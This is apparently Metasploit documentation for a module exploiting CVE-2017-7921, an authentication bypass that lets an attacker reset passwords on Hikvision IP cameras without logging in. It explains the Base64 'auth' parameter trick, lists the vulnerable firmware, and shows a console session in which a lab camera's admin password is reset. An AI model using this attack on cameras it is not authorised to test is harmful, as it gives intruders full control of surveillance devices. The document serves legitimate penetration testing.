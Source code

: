 ## Vulnerable Application

Many Hikvision IP cameras contain improper authentication logic that allow unauthenticated impersonation of any
configured user account. This allows an attacker to bypass all security on the camera and
gain full admin access, allowing them to thereby completely control the camera and modify
any setting or retrieve sensitive information.

This module allows the attacker to perform an unauthenticated password change on
any vulnerable Hikvision IP Camera by utilizing the improper authentication logic to
send a request  to the server which contains an `auth` parameter in the query string
containing a Base64 encoded version of the authorization in `username:password` format.
Vulnerable cameras will ignore the `username` parameter and will instead use the username
part of this string as the user to log in as. This can then be used to gain full 
administrative access to the affected device.

The vulnerability has been present in Hikvision products since 2014.
In addition to Hikvision-branded devices, it affects many white-labeled
camera products sold under a variety of brand names.

Below is a list of vulnerable firmware, but many other white-labelled versions might be vulnerable.

* DS-2CD2xx2F-I Series: V5.2.0 build 140721 to V5.4.0 build 160530
* DS-2CD2xx0F-I Series: V5.2.0 build 140721 to V5.4.0 Build 160401
* DS-2CD2xx2FWD Series: V5.3.1 build 150410 to V5.4.4 Build 161125
* DS-2CD4x2xFWD Series: V5.2.0 build 140721 to V5.4.0 Build 160414
* DS-2CD4xx5 Series: V5.2.0 build 140721 to V5.4.0 Build 160421
* DS-2DFx Series: V5.2.0 build 140805 to V5.4.5 Build 160928
* DS-2CD63xx Series: V5.0.9 build 140305 to V5.3.5 Build 160106

Installing a vulnerable test bed requires a Hikvision camera with the vulnerable firmware loaded.

This module has been tested against a Hikvision camera with the specifications listed below:

* MANUFACTURER: Hikvision.China
* MODEL: DS-2CD2142FWD-IS
* FIRMWARE VERSION: V5.4.1
* FIRMWARE RELEASE: build 160525
* BOOT VERSION: V1.3.4
* BOOT RELEASE: 100316

## Verification Steps

1. `use auxiliary/admin/http/hikvision_unauth_pwd_reset_cve_2017_7921`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set USERNAME <name of user>`
1. `set PASSWORD <new password>`
1. `check`
1. `set ID <id of user whose password you want to reset from "check" output>`
1. `run`
1. You should get a message that the password for the user has been successfully changed.

## Options
### STORE_CRED
This option allows you to store the user and password credentials in the Metasploit database for further use.

## Scenarios

### Hikvision DS-2CD2142FWD-IS Firmware Version V5.4.1 build 160525

```
msf6 > use auxiliary/admin/http/hikvision_unauth_pwd_reset_cve_2017_7921
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set RHOSTS 192.168.100.180
RHOSTS => 192.168.100.180
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set USERNAME admin
USERNAME => admin
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set PASSWORD Pa$$W0rd
PASSWORD => Pa$$W0rd
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set ID 1
ID => 1
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > set STORE_CRED true
STORE_CRED => true
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > options

Module options (auxiliary/admin/http/hikvision_unauth_pwd_reset_cve_2017_7921):

   Name        Current Setting  Required  Description
   ----        ---------------  --------  -----------
   ID          1                yes       ID (default 1 for admin)
   PASSWORD    Pa$$W0rd         yes       New Password (at least 2 UPPERCASE, 2 lowercase and 2 special characters
   Proxies                      no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS      192.168.100.180  yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploi
                                          t
   RPORT       80               yes       The target port (TCP)
   SSL         false            no        Negotiate SSL/TLS for outgoing connections
   STORE_CRED  true             no        Store credential into the database.
   USERNAME    admin            yes       Username for password change
   VHOST                        no        HTTP server virtual host

msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > check

[*] Following users are available for password reset...
[*] USERNAME:admin | ID:1 | ROLE:Administrator
[*] USERNAME:admln | ID:2 | ROLE:Operator
[+] 192.168.100.180:80 - The target is vulnerable.
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) > run
[*] Running module against 192.168.100.180

[*] Following users are available for password reset...
[*] USERNAME:admin | ID:1 | ROLE:Administrator
[*] USERNAME:admln | ID:2 | ROLE:Operator
[*] Starting the password reset for admin...
[+] Password reset for admin was successfully completed!
[*] Please log in with your new password: Pa$$W0rd
[*] Credentials for admin were added to the database...
[*] Auxiliary module execution completed
msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset) > creds -O 192.168.100.180
Credentials
===========

host             origin           service        public  private   realm  private_type  JtR Format
----             ------           -------        ------  -------   -----  ------------  ----------
192.168.100.180  192.168.100.180  80/tcp (http)  admin   Pa$$W0rd         Password

msf6 auxiliary(admin/http/hikvision_unauth_pwd_reset_cve_2017_7921) 
```
